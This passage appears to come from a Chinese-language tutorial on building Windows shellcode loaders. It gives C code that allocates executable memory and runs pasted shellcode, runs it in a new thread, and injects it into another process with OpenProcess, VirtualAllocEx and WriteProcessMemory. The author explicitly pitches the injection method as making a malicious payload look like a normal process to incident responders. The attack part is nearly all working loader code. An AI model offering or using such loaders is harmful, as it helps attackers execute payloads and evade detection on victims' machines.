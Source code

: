 ```plain
            printf("Failed to read registry value.\n");
        }

        // 关闭注册表项
        RegCloseKey(hKey);
    } else {
        printf("Failed to open registry key.\n");
    }

    return 0;
}
```

## 四.加载器入口点的写法

对于加载器的写法，无论别的是什么，也总得要有个入口点，也就是api，可以使用常见的api，可以使用自己找个少见的api。比如：VirtualAlloc，更底层是VirtualAllocEx。

### VirtualAlloc直接加载

一个最简单的直接加载payload，开辟内存空间运行，把载荷放进去。

```plain
#include <stdio.h>
#include <windows.h>
using namespace std;
int main()
{
    char shellcode[] = "把shellcode粘贴到这里";
    LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpAlloc, shellcode, sizeof shellcode);
    ((void(*)())lpAlloc)();
    return 0;
}
```

### 创建线程运行

自己这个程序运行后，给自己开个线程运行

```plain
void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);//创建线程运行shellcode
```

### 远程线程加载

把恶意的载荷加载去第三方的进程，这样应急排查的话，就会看见一个正常的进程。

```plain
打开一个要加载的远程线程：
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

分配空间：
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

写入内存：
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```
